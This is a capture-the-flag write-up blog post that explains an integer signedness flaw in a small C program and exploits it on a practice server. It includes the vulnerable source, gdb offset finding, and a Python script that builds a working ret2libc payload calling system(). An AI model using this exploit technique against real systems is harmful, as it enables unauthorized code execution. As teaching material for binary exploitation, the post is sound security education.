 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 2"
---
```


![Logo](/assets/images/belts-purple.png)


In this post we'll continue with the second level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
Another buffer overflow, similar mitigatiopn techniques as we've seen in the previous level (non-executable stack), 
but this time we have another flaw, a little more subtle: _integer signedness error_.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})
* [Binary Master: Lieutenant - Level 1]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %})

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8267
level2@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

0 packages can be updated.
0 updates are security updates.

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                    __  ___          __              
  / _ )(_)___ ___ _______ __/  |/  /___ ____ / /____ ______ __
 / _  / // _ | _ `/ __/ // / /|_/ // _ `(_-</ __/ -_) __/ // /
/____/_//_//_|_,_/_/  \_, /_/  /_/ \_,_/___/\__/\__/_/  \_, / 
                     /___/                             /___/  

             ___           __                   __ 
            / (_)___ __ __/ /____ ___ ___ ____ / /_
           / / // -_) // / __/ -_) _ | _ `/ _ | __/
          /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/ 
                                                   

```

Let's see what mitigation techniques we have now using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level2
```

There is no stack canary and the stack is **not** executable. As we've seen in the previous level, [ASLR is disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) system-wise for this set of challenges.

## 1 - Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void head(int len, char *filename) {
	char buf[256];
	
	if (len > 255) {                         [1]
		printf("You are insane!\n");
		return;
	}

	int fp = open(filename, O_RDONLY);

	if (fp == 0) {                           [2]
		printf("Computer says no\n");
		return;
	}

	buf[read(fp, buf, len)] = 0;	         [3]
	close(fp);

	printf("%s\n", buf);
}

int main(int argc, char **argv) {
	if (argc < 2) {
		printf("Usage: %s <size>\n", argv[0]);
		return -1;
	}

	head(atoi(argv[1]), argv[2]);
	
	return 0;
}
```

First let's understand what is the purpose of this program and how it works. In this case it's pretty straight forward:
* Its first parameter represents a number of lines to be read from the filename specified in the second command line parameter.
* A first sanity check is implemented at **[1]**: if the length is greater than 255 bytes, the program will terminate.
* A second check at **[2]** after the _open_ call probably intends to terminate the program if file cannot be opened successfully.
* Finally,the _read_ call at **[3]** copies maximum _len_ characters into the buffer _buf_, whose size is 256 bytes, thus avoiding the overflow.

Now let's see if we can break it:
* Let's notice that the check at **[2]** is actually not effective because, according to its [man page](http://man7.org/linux/man-pages/man2/open.2.html), _open_ will return -1 in case of error, not 0. This means that the program will have unpredictable output for non-existent files.
* The check at **[1]** poses, however, a more serious risk: as we can see from the definition of the function, _len_ is actually a signed integer. But [read](https://linux.die.net/man/3/read) expects instead a **size_t** parameter. This means that passing any negative value will successfulyl bypass the check, overflow the buffer and everything beyond, including the return address from function _head_.

Although one might expect that a GCC compiler error would be generated in situations like this, it is not actually the case. Moreover, even eanbling _all warnings_ and _extra warnings_ doesn't produce any relevant message. These flags are actually misleading, since it is not possible (nor desirable!) to show _ALL_ compilation errors supported by GCC. See [here](https://stackoverflow.com/questions/11714827/how-to-turn-on-literally-all-of-gccs-warnings) why. That's why I was saying it is slighly more difficult to spot this class of vulnerabilities in practice. 

```bash
$ gcc -m32 -fstack-protector level2.c -o level2       
$ gcc -Wall -Wextra -m32 -fstack-protector level2.c -o level2
$ 
```

The only way to get a warning for this kind of behaviour is to manually enable implicit sign conversions erros, using the **-Wsign-conversion** flag.

```
-Wsign-conversion
    Warn for implicit conversions that may change the sign of an integer value, like assigning a signed integer expression to an unsigned integer variable. An explicit cast silences the warning. In C, this option is enabled also by -Wconversion. 
```

```bash
$ gcc -Wsign-conversion -m32 -fstack-protector level2.c -o level2
level2.c: In function ‘head’:
level2.c:24:20: warning: conversion to ‘size_t {aka unsigned int}’ from ‘int’ may change the sign of the result [-Wsign-conversion]
  buf[read(fp, buf, len)] = 0; 
                    ^
```		    

## 2 - Exploit 

Given the previous finding, the exploitation is simple and very similar with [level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html). First we'll see what we need to control the EIP and then we'll introduce a payload as well.

### Controlling the execution flow
Although we know that **buf** is 256 bytes in size, we need to see the stack layout of the function **head** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![head stack](/assets/images/bm7-0.png)

So we need 256 + 12 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*272 + "BBBB"' > input
$ gdb -q ./level2

gdb-peda$ run -1 input
```
We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm7-1.png)

### Add ret2libc payload
In a very similar way with the previous level, we'll return from _head_ function to the _system_ function, and place its argument in an environment variable. All the unchanged details omitted for space. The format of our payload is:

```
| PADDING (272 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

The python script below generates the payload according to this scheme:

```python
import struct                                                                                                      
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffd928-6      # Address of environment variable (/home/level2/victory)

payload = "A" * (256 + 12 + 4) + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ python /tmp/gen.py > /tmp/input
$ /levels/level2 -1 /tmp/input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp^�P��"��
   ___  _                      __  ___         __  
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   

Subject: Victory!

Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level3. If you want, you can log in
as level3 with password     [REDACTED]
```

That's it for now. It the [next level]({{ site.baseurl }}{% post_url 2016-03-02-binary-master-lieutenant-3 %}) we'll look at a new calss of issues - _command injection vulnerabilities_.
